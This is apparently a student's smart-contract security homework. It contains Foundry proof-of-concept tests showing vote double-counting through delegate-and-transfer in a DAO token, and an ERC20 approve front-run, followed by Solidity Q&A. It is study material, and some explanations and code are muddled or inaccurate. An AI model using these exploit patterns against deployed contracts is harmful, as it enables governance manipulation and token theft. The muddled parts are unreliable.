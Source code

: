 # Web3-Security-Dev-Batch-1-HW W2

## Vulnerability Analysis

#### 1. Balance account for voting power

token balance should not account for voting power, can use `ERC20Votes.sol` for better checkpoints implementations, `ERC20Votes.sol` extension keeps a history (checkpoints) of each account's vote power, the downside is that it
requires users to delegate to themselves in order to activate checkpoints and have their voting power tracked, and to keep in mind is that voting is usually handled by governance contracts.

ps: also it save more gas, can vote without spending gas, because the delegatee is using voting on their behalf

`ERC20Votes.sol` source : <https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/extensions/ERC20Votes.sol>

```sh
function _delegate uint256 _addrBalance = balanceOf(_addr);
```

#### 2. The votes getter function didn't check the availability of checkpoints

`getVotes` function doesn't check the availability of checkpoints. This means that vote powers can still remain transferable, even after member has delegated to another user and transferred tokens to other members

## POC

* Hacker control `alice` account to delegates vote power to himself, so he can create a proposal or vote on a proposal
* After delegation completed, transfer 1000 tokens to other dao member (bob, Carol), repeat the same process
* Control bob account to delegates more vote power to hacker himself, repeat the same process for Carol
* Finish all the delegations & transfer tokens to hacker himself
* Now hacker has 3000 vTokens and also 1000 vTokens

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "contracts/hack/governance/DaoToken.sol";

contract exploitTest is Test {
 DaoToken daoToken;
 address public owner = address(0);
 address public hacker =address(1337);

 address public alice= address(1);
 address public bob = address(2);
 address public carol = address(3);

 function setUp() public {
  vm.startPrank(owner);
  daoToken = new DaoToken();
  daoToken.mint(alice, 1000);
  vm.stopPrank();
  }

 function testExploit() public {
    vm.startPrank(alice);
    //hacker control alice account to delegates vote power to himself, so he can create a proposal or vote on a proposal
    daoToken.delegate(hacker);
    daoToken.getVotes(alice);
    //transfer 1000 tokens to other dao member (bob, Carol)
    daoToken.transfer(bob, 1000);
    vm.startPrank(bob);
    // control bob account to delegates more vote power to hacker himself, repeat the same process for Carol
    daoToken.delegate(hacker);
    daoToken.transfer(carol, 1000);

    vm.startPrank(carol);
    daoToken.delegate(hacker);


    // now hacker should has 3000 votes, hacker also wanna transfer 1000 tokens to himself
    daoToken.transfer(hacker, 1000);
    vm.stopPrank();

 uint hacker_vote = daoToken.getVotes(hacker);
    console.log("Vote Count of Hacker before attack: %s ", hacker_vote);

 uint hacker_balance= daoToken.balanceOf(hacker);
    console.log("Hacker's daoToken after the attack: %s: ", hacker_balance);

 assertEq(hacker_vote , 3000);
 assertEq(hacker_balance, 1000);
    }

}
```

## Group Assignments

<https://docs.google.com/presentation/d/1rjvzU7y3j6_k4SY-PuKBs-F7jb4E4UZwPqKDohSYJas/edit#slide=id.g269bc814b66_0_107>

##### Q: Why the state variable _totalSupply is set to private?

these private states indicate that these variables should not be allowd to be modified or also be inherited the corresponding contract

##### Q: Why the state variable _balances is set to private?

The methodology remains the same, ensuring that they are not visible in derived contracts

##### Q: What is difference between _msgSender() and msg.sender?

The _msgSender() is a virtual function that can be overridden, so for a basic smart contract, it doesn't do much, it just returns msg.sender

But for a GSN-like contract, _msgSender is overridden and_msgSender would return the sender via payload(maybe msg.data) and not the actual caller

##### Q: Why the state variable _allowances is set to private ?

The methodology remains the same, ensuring that they are not visible in derived contracts

##### Q: What is the potential risk of directly overwriting the old value of _allowance? (Write a PoC to validate it)

Poc Action : Allowance front-run attack

* Front run ERC20 approve
* Owner approves 1000
* Spender spend 1000
* Owner updates approval to 100
* Spender spend 100

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.22;

import {Test, console2} from "forge-std/Test.sol";
import {Token} from "../src/Token.sol";

contract ERC20ApproveTest is Test {
    // Front run ERC20 approve
    // 1. Owner approves 1000
    // 2. Spender spend 1000
    // 3. Owner updates approval to 100
    // 4. Spender spend 100
    Token private token;
    address private constant owner = address(11);
    address private constant spender = address(12);

    function setUp() public {
        token = new Token("token", "TOKEN", 18);
        token.mint(owner, 2000);
    }

    function test() public {
        // Owner approves 1000
        vm.prank(owner);
        token.approve(spender, 1000);

        // Spender spends 1000
        vm.prank(spender);
        token.transferFrom(owner, spender, 1000);

        // Owner updates approval to 100
        vm.prank(owner);
        token.approve(spender, 100);

        // Spender spends 100
        vm.prank(spender);
        token.transferFrom(owner, spender, 100);

        console2.log("spender balance", token.balanceOf(spender));
    }
}
```

##### Q: Zero address is invalid in ERC721, but not in ERC20 and ERC1155. Why?

ERC-20 and ERC-1155, on the other hand, do not have this restriction by default, and the decision to support or disallow transfers to the zero address is left to the developers implementing those standards

##### Q: What doest the assembly block actually do?

Solidity Assembly allowing developers to write lower-level code directly
# contracts-safety-study
